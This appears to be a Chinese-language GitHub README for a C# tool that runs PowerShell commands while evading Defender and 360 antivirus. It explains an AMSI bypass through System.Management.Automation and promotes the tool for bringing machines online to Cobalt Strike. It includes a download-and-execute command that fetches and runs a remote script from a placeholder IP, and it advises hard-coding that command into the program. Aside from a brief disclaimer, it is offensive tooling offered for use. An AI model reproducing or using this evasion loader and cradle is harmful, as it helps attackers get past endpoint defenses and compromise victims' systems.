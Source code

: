 # powershell-bypss

powershell命令免杀的小工具，可过Defender、360等，可执行上线cobaltstrike、添加计划任务等。

AMSI绕过+Automation执行powershell命令。

理论上来说遇到禁用powershell的情况也可以通过该工具执行powershell的命令。

**请勿使用于任何非法用途，由此产生的后果自行承担。**

**理论上来说可以免杀执行任意powershell命令，但是调用了如schtask这类被监控的程序还是会被查杀的。**

上述测试环境均为实体机。

思路很简单，很久之前就有了，工具调用C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation目录下面的System.Management.Automation.dll执行底层api来绕过杀软对powershell的监控，同时绕过AMSI的检测。由于patch绕过AMSI的方法会被360查杀，因此这里使用了设置System.Management.Automation.AmsiUtils的方法来绕过。

这里用对命令进行了base64编码，当然这就是一个命令的加载器，具体怎么加密命令有各种各样的方法。

由于是C#，因此可以用execute-assembly内存执行的方式来不落地执行，不过cs本身的powerpick就实现了这个功能，这里只是单拿出来做一个小工具。

**师傅们注意避免用powershell命令，上线cobaltstrike只需要base64```IEX ((new-object net.webclient).downloadstring('http://ip:port/a'))```裸命令，如果以powershell开头那么还是会调用powershell被360拦截的。**

**想单纯来上线cs的师傅可以把IEX开头的powershell命令写定在程序里的myPipeLine.Commands.AddScript参数中**

![image](https://user-images.githubusercontent.com/48757788/203709296-768cc97f-29bf-432a-b260-2e654164cd07.png)






